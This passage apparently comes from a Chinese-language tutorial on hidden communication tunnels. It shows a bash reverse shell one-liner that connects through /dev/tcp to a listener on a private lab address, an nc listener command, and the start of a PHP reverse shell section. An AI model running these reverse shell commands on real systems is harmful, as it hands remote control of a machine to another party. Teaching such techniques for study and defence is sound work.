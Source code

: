 客户端（192.168.2.7）执行bash命令反弹shell给服务端（192.168.2.12）：

```
bash -i >& /dev/tcp/192.168.2.12/6666 0>&1
```

![](/assets/img/隐藏通信隧道基础知识/44.png)


（12）PHP反弹shell

服务端监听本地端口6666：

```
nc -lvp 6666
```
